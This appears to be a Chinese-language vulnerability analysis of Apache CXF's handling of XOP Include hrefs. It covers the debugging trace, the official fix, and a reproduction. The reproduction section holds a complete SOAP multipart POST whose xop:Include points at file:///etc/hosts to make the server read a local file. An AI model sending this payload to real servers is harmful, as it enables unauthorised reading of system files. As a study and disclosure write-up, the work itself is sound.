# 一、漏洞分析
先发送一次POC发现，利用这个漏洞必然会触发异常：



在idea中捕捉任何异常，再发送一次POC：



此时的调用栈如图：



发现读取href字段的位置在这里：



在此处打断点进一步观察：



再次发送POC:





发现问题出在这里：


POC中包含的恶意URL之所以可以被解析是因为命中了以上函数的第三个条件分支，被解析成了URLDataSource。



这里设置了base64data:




现在问题在于，虽然设置了base64data，但是目前不知道在哪里读取的dataSource中的内容，为此找到了base64data.get，此函数会读取dataSource的内容。在此处打断点：



运行至此断点处，查看调用栈：



发现是在调用length方法时，length方法中调用了get:




综上，漏洞点出现在：org.apache.cxf.attachment.AttachmentUtil#getAttachmentDataSource，运行href解析为URL。

# 二、官方修复方案

在org.apache.cxf.attachment.AttachmentUtil#getAttachmentDataSource中添加相应的检查项：
只有当org.apache.cxf.attachment.xop.follow.urls被设置为true时，才会加载URL中的附件：



# 三、漏洞复现

发送：
```
POST /test HTTP/1.1
Host: 192.168.240.130:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
Content-Length: 472
Connection: close

------kkkkkk123123213
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
```


base64解码：



# 四、总结
1. 强化学习了动态调试的技巧。

2026/4/22-23:41